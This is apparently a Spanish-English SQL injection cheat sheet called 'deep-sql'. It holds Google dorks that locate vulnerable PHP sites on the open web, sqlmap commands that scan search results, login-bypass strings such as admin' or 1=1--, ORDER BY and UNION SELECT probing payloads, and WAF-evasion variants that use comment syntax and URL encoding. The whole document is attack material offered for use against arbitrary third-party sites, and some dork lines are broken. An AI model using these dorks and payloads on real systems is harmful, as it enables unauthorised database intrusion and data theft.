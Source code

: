 # deep-sql




inurl:”id=” & intext:”Warning: mysql_fetch_assoc()"
inurl:”id=” & intext:”Warning: mysql_fetch_array()"
inurl:”id=” & intext:”Warning: mysql_num_rows()"
inurl:”id=” & intext:”Warning: session_start()"
inurl:”id=” & intext:”Warning: getimagesize()"
inurl:”id=” & intext:”Warning: is_writable()"
inurl:”id=” & intext:”Warning: getimagesize()"
inurl:”id=” & intext:”Warning: Unknown()"
inurl:”id=” & intext:”Warning: session_start()"
inurl:”id=” & intext:”Warning: mysql_result()"
inurl:”id=” & intext:”Warning: pg_exec()"
inurl:”id=” & intext:”Warning: mysql_result()"
inurl:”id=” & intext:”Warning: mysql_num_rows()"
inurl:”id=” & intext:”Warning: mysql_query()"
inurl:”id=” & intext:”Warning: array_merge()"
inurl:”id=” & intext:”Warning: preg_match()"
inurl:”id=” & intext:”Warning: ilesize()"
inurl:”id=” & intext:”Warning: filesize()"
inurl:”id=” & intext:”Warning: filesize()"
inurl:”id=” & intext:”Warning: require()
inurl:aboutbook.php?id=
inurl:review.php?id=
inurl:loadpsb.php?id=
inurl:ages.php?id=
inurl:material.php?id=
inurl:clanek.php4?id=
inurl:announce.php?id=
inurl:chappies.php?id=
inurl:read.php?id=
inurl:viewapp.php?id=
inurl:viewphoto.php?id=
inurl:rub.php?idr=
inurl:galeri_info.php?l=
inurl:review.php?id=
inurl:iniziativa.php?in=
inurl:curriculum.php?id=
inurl:labels.php?id=
inurl:story.php?id=
inurl:look.php?ID=
inurl:newsone.php?id=
inurl:aboutbook.php?id=
inurl:material.php?id=
inurlpinions.php?id=
inurl:announce.php?id=
inurl:rub.php?idr=
inurl:galeri_info.php?l=
inurl:tekst.php?idt=
inurl:event.php?id=
inurlroduct-item.php?id=
inurl:sql.php?id=
inurl:news_view.php?id=
inurl:select_biblio.php?id=
inurl:humor.php?id=
inurl:aboutbook.php?id=
inurl:fiche_spectacle.php?id=
inurl:view_items.php?id= 
inurl:home.php?cat= 
inurl:item_book.php?CAT= 
inurl:www/index.php?page= 
inurl:schule/termine.php?view= 
inurl:goods_detail.php?data= 
inurl:storemanager/contents/item.php?page_code= 
inurl:view_items.php?id= 
inurl:customer/board.htm?mode= 
inurl:help/com_view.html?code= 
inurl:n_replyboard.php?typeboard= 
inurl:eng_board/view.php?T****= 
inurl:prev_results.php?prodID= 
inurl:bbs/view.php?no= 
inurl:gnu/?doc= 
inurl:zb/view.php?uid= 
inurl:global/product/product.php?gubun= 
inurl:m_view.php?ps_db= 
inurl:productlist.php?tid= 
inurl:product-list.php?id= 
inurl:onlinesales/product.php?product_id= 
inurl:garden_equipment/Fruit-Cage/product.php?pr= 
inurl:product.php?shopprodid= 
inurl:product_info.php?products_id= 
inurl:productlist.php?tid= 
inurl:showsub.php?id= 
inurl:productlist.php?fid= 
inurl:products.php?cat= 
inurl:products.php?cat= 
inurl:product-list.php?id= 
inurl:product.php?sku= 
inurl:store/product.php?productid= 
inurl:products.php?cat= 
inurl:productList.php?cat= 
inurl:product_detail.php?product_id= 
inurl:product.php?pid= 
inurl:view_items.php?id= 
inurl:more_details.php?id= 
inurl:county-facts/diary/vcsgen.php?id= 
inurl:idlechat/message.php?id= 
inurl:podcast/item.php?pid= 
inurl:products.php?act= 
inurl:details.php?prodId= 
inurl:socsci/events/full_details.php?id= 
inurl:ourblog.php?categoryid= 
inurl:mall/more.php?ProdID= 
inurl:archive/get.php?message_id= 
inurl:review/review_form.php?item_id= 
inurl:english/publicproducts.php?groupid= 
inurl:news_and_notices.php?news_id= 
inurl:rounds-detail.php?id=
Directly from SQLMAP
sqlmap.py -g "DOKR"
sqlmap.py -g "inurl:\".php?id=1\""
Discover a vulnerable parameter
To discover if a parameter is vulnerable we first have to test, in most cases just adding an ' at the end of the parameter value, this will show us some sql error, example:

1 = sitio.xx/ejemplo?id=1
2 = sitio.xx/ejemplo?id=1'
Podemos testear con los siguientes símbolos y sentencias :

'
''
`
``
,
"
""
/
//
\
\\
;
AND 1
AND 0
AND true
AND false
1-false
1-true
1*56
-2
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or ''-'
" or ""-"
" or true--
' or true--
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
Detect number of vulnerable columns
ORDER BY 1-- 
 ORDER BY 2-- 
 ORDER BY 3-- 
 ORDER BY 4-- 
 ORDER BY 5-- 
 ORDER BY 6-- 
 ORDER BY 7-- 
 ORDER BY 8-- 
 ORDER BY 9-- 
 ORDER BY 10-- 
 
 ORDER BY 1# 
 ORDER BY 2# 
 ORDER BY 3# 
 ORDER BY 4# 
 ORDER BY 5# 
 ORDER BY 6# 
 ORDER BY 7# 
 ORDER BY 8# 
 ORDER BY 9# 
 ORDER BY 10#
Union Select
UNION SELECT 1
 UNION SELECT 1,2
 UNION SELECT 1,2,3
 UNION SELECT 1,2,3,4
 UNION SELECT 1,2,3,4,5
 UNION SELECT 1,2,3,4,5,6
 UNION SELECT 1,2,3,4,5,6,7
 UNION ALL SELECT 1
 UNION ALL SELECT 1,2
 UNION ALL SELECT 1,2,3
 UNION ALL SELECT 1,2,3,4
 UNION ALL SELECT 1,2,3,4,5
 UNION ALL SELECT 1,2,3,4,5,6
 UNION ALL SELECT 1,2,3,4,5,6,7
 
 UNION(SELECT 1)
 UNION(SELECT 1,2)
 UNION(SELECT 1,2,3)
 UNION(SELECT 1,2,3,4)
 UNION(SELECT 1,2,3,4,5)
 UNION(SELECT 1,2,3,4,5,6)
 UNION(SELECT 1,2,3,4,5,6,7)
 
 UNION ALL(SELECT 1)
 UNION ALL(SELECT 1,2)
 UNION ALL(SELECT 1,2,3)
 UNION ALL(SELECT 1,2,3,4)
 UNION ALL(SELECT 1,2,3,4,5)
 UNION ALL(SELECT 1,2,3,4,5,6)
 UNION ALL(SELECT 1,2,3,4,5,6,7)
 
 AND 1 UNION SELECT 1
 AND 1 UNION SELECT 1,2
 AND 1 UNION SELECT 1,2,3
 AND 1 UNION SELECT 1,2,3,4
 AND 1 UNION SELECT 1,2,3,4,5
 AND 1 UNION SELECT 1,2,3,4,5,6
 AND 1 UNION SELECT 1,2,3,4,5,6,7
UNION DISTINCTROW SELECT 1
 UNION DISTINCTROW SELECT 1,2
 UNION DISTINCTROW SELECT 1,2,3
 UNION DISTINCTROW SELECT 1,2,3,4
 UNION DISTINCTROW SELECT 1,2,3,4,5
 UNION DISTINCTROW SELECT 1,2,3,4,5,6
bypass usando comentarios
/*!UNION*/ /*!SELECT*/ 1
 /*!UNION*/ /*!SELECT*/ 1,2
 /*!UNION*/ /*!SELECT*/ 1,2,3
 /*!UNION*/ /*!SELECT*/ 1,2,3,4
 /*!UNION*/ /*!SELECT*/ 1,2,3,4,5
 /*!UNION*/ /*!SELECT*/ 1,2,3,4,5,6
 /*!UNION*/ /*!SELECT*/ 1,2,3,4,5,6,7
 
 /*!12345UNION*/ /*!12345SELECT*/ 1
 /*!12345UNION*/ /*!12345SELECT*/ 1,2
 /*!12345UNION*/ /*!12345SELECT*/ 1,2,3
 /*!12345UNION*/ /*!12345SELECT*/ 1,2,3,4
 /*!12345UNION*/ /*!12345SELECT*/ 1,2,3,4,5
 /*!12345UNION*/ /*!12345SELECT*/ 1,2,3,4,5,6
 /*!12345UNION*/ /*!12345SELECT*/ 1,2,3,4,5,6,7
 
 /*!12345UNION*/(/*!12345SELECT*/ 1)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2,3)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2,3,4)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2,3,4,5)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2,3,4,5,6)
 /*!12345UNION*/(/*!12345SELECT*/ 1,2,3,4,5,6,7)
bypass usando comentarios + url encoding
/*!%55nion*/%20/*!%53elect*/1
 /*!%55nion*/%20/*!%53elect*/%201,2
 /*!%55nion*/%20/*!%53elect*/%201,2,3
 /*!%55nion*/%20/*!%53elect*/%201,2,3,4
 /*!%55nion*/%20/*!%53elect*/%201,2,3,4,5
 /*!%55nion*/%20/*!%53elect*/%201,2,3,4,5,6
 /*!%55nion*/%20/*!%53elect*/%201,2,3,4,5,6,7
 
 /*!12345%55nion*/ /*!12345%53elect*/ 1
 /*!12345%55nion*/ /*!12345%53elect*/ 1,2
 /*!1234%55nion*/ /*!12345%53elect*/ 1,2,3
 /*!12345%55nion*/ /*!12345%53elect*/ 1,2,3,4
 /*!12345%55nion*/ /*!12345%53elect*/ 1,2,3,4,5
 /*!12345%55nion*/ /*!12345%53elect*/ 1,2,3,4,5,6
 /*!12345%55nion*/ /*!12345%53elect*/ 1,2,3,4,5,6,7
 
 /*!12345%55nion*/(/*!12345%53elect*/ 1)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2,3)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2,3,4)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2,3,4,5)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2,3,4,5,6)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2,3,4,5,6,7)
Information_schema.tables bypass
/*!froM*/ /*!InfORmaTion_scHema*/.tAblES /*!WhERe*/ /*!TaBle_ScHEmA*/=schEMA()-- -
/*!froM*/ /*!InfORmaTion_scHema*/.tAblES /*!WhERe*/ /*!TaBle_ScHEmA*/ like schEMA()-- -
/*!froM*/ /*!InfORmaTion_scHema*/.tAblES /*!WhERe*/ /*!TaBle_ScHEmA*/=database()-- -
/*!froM*/ /*!InfORmaTion_scHema*/.tAblES /*!WhERe*/ /*!TaBle_ScHEmA*/ like database()-- -
/*!FrOm*/+%69nformation_schema./**/columns+/*!50000Where*/+/*!%54able_name*/=hex table
/*!FrOm*/+information_schema./**/columns+/*!12345Where*/+/*!%54able_name*/ like hex table
Concat
CoNcAt()
concat() 
CON%08CAT()
CoNcAt()
%0AcOnCat()
/**//*!12345cOnCat*/
/*!50000cOnCat*/(/*!*/)
unhex(hex(concat(table_name)))
unhex(hex(/*!12345concat*/(table_name)))
unhex(hex(/*!50000concat*/(table_name)))
group_concat
/*!group_concat*/()
gRoUp_cOnCAt()
group_concat(/*!*/)
group_concat(/*!12345table_name*/)
group_concat(/*!50000table_name*/)
/*!group_concat*/(/*!12345table_name*/)
/*!group_concat*/(/*!50000table_name*/)
/*!12345group_concat*/(/*!12345table_name*/)
/*!50000group_concat*/(/*!50000table_name*/)
/*!GrOuP_ConCaT*/()
/*!12345GroUP_ConCat*/()
/*!50000gRouP_cOnCaT*/()
/*!50000Gr%6fuP_c%6fnCAT*/()
